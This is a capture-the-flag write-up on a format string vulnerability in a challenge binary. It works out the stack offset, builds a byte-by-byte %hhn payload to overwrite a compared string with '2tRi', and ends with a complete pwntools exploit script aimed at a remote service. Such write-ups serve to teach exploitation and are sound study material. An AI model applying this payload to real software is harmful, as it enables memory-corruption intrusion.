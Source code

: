 * use `%n` format string vuln to overwrite addr
* compare "12345678" locates at rbp-0x219 with "2tRi****" load from mem for first 4 characters, so try to overwrite rbp-0x219 to 2tRi
* offset: AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p, it turns out the 8th offset is usable
* payload = b"%46c...." + b"%16$hhn."  **.** is for the aligh, 2 with ascii decimal = 50 coz have 4 dots, so need %46c which means 46 spaces and 4 dots characters be written, and we wrote 50 to the address: payload += p64(target_address)
	* why 46c: align
	
	* why %16: 

	```
	payload = (b"%46c....")    # 8th offset
	payload += (b"%16$hhn.")
	
	payload += (b"%61c....")  # t = 116 - 50 =
	payload += (b"%17$hhn.")
	
	payload += (b"%218c...")  # R = 82 - 116 + 256 =222 - 4
	payload += (b"%18$hhn.")
	
	payload += (b"%18c....")  # i = 105 - 82
	payload += (b"%19$hhn.")
	
	payload += p64(target_address)		# 16th offset
	payload += p64(target_address + 1)	# 17th offset
	payload += p64(target_address + 2)	# 18th offset
	payload += p64(target_address + 3)	# 19th offset
	```
	
	* whole script
	
	Stack Layout (From higher to lower addresses):
	
	```
	┌───────────────────────────┐
	│ target_addr               │ 16th
	├───────────────────────────┤
	│ "%19$hhn."                │	15th
	├───────────────────────────┤
	│ "%18c...."                │	14th
	├───────────────────────────┤
	│ "%18$hhn."                │	13th
	├───────────────────────────┤
	│ "%218c..."                │ 12th
	├───────────────────────────┤
	│ "%17$hhn."                │ 11th
	├───────────────────────────┤
	│ "%61c...."                │ 10th
	├───────────────────────────┤
	│ "%16$hhn."                │ 9th
	├───────────────────────────┤
	│ "%46c...."                │ 8th 

	```
	
	```
	from pwn import *

	context.arch = 'amd64'
	# if args.REMOTE:
	p = remote('lol', 4003)
	# else:
	#     context.terminal = ['tmux', 'splitw', '-h']
	#     p = gdb.debug('./mimi',
	#                   gdbscript='''
	#                   b *0x401310
	#                   c
	#                   ''')
	
	p.recvuntil(b'A landslide has blocked the way at ').decode('utf-8').strip()
	rdn_addr_str = p.recvline().strip(b'\n')
	print('rdn_addr_str', rdn_addr_str)
	rdn_addr = int(rdn_addr_str, 16)
	
	target_address = rdn_addr
	
	payload = (b"%46c....")
	payload += (b"%16$hhn.")
	
	payload += (b"%61c....")  # t = 116 - 50 =
	payload += (b"%17$hhn.")
	
	payload += (b"%218c...")  # R = 82 - 116 + 256 =222 - 4
	payload += (b"%18$hhn.")
	
	payload += (b"%18c....")  # i = 105 - 82
	payload += (b"%19$hhn.")
	
	payload += p64(target_address)
	payload += p64(target_address + 1)
	payload += p64(target_address + 2)
	payload += p64(target_address + 3)
	
	
	p.recvuntil(b'Speak the phrase `2tRiViAl` and I shall open:').decode('utf-8').strip()
	p.sendline(payload)
	
	p.interactive()

	```
